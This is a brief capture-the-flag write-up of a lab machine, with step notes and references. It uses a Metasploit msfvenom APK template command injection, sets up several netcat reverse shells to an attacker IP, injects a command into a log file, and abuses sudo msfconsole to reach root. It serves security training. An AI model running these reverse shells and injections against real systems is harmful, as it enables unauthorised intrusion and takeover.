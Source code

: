 \-sp1icer
  
    
      
## TL;DR FOR MY LAZY FRIENDS

These were my short-form notes while doing the box.

```
1. nmap to find port 5k
2. explore the webpage, see the android apk msfvenom template thing
3. use `unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection` in metasploit
	1. https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/
4. `msfconsole -x "use multi/handler; set payload cmd/unix/reverse_netcat; set lhost tun0; set lport 9001; run"`
5. upload the `msf.apk` with the android option
6. shell as `kid`
7. Migrate to a better shell
	1. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.117 9001 >/tmp/f`
8. TTY upgrade
	1. `python3 -c 'import pty;pty.spawn("/bin/bash")'`
	2. `stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'`
	3. `stty raw -echo; fg`
	4. `stty rows ROWS cols COLS`
	5. `export TERM=xterm-256color`
	6. `exec /bin/bash`
9. Explore to find `/home/pwn/scanlosers.sh`
10. do local demo
11. edit `/home/kid/logs/hackers`
	1. `1 2 3 4 $(rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.117 9001 >/tmp/g)`
12. TTY upgrade
13. `sudo -l` to see what pwn has access to
14. `sudo -u root /opt/metasploit-framework-6.0.9/msfconsole`
15. `rm /tmp/h;mkfifo /tmp/h;cat /tmp/h|/bin/sh -i 2>&1|nc 10.10.14.117 9001 >/tmp/h`
16. root shell
```

## REFERENCES

In the actual post:  
[https://library.netapp.com/ecmdocs/ECMP1155586/html/GUID-E306A314-D30E-4ACB-827E-1925A1368DD0.html](https://library.netapp.com/ecmdocs/ECMP1155586/html/GUID-E306A314-D30E-4ACB-827E-1925A1368DD0.html)  
[https://library.netapp.com/ecmdocs/ECMP1155586/html/GUID-DBF81E5C-CF3C-4B07-AF01-83A625F2B4BF.html](https://library.netapp.com/ecmdocs/ECMP1155586/html/GUID-DBF81E5C-CF3C-4B07-AF01-83A625F2B4BF.html)  
[https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)  
[https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)  
[https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom#how-to-supply-a-custom-template](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom#how-to-supply-a-custom-template)  
[https://docs.rapid7.com/metasploit/resource-scripts/](https://docs.rapid7.com/metasploit/resource-scripts/)  
[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)  
[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)  
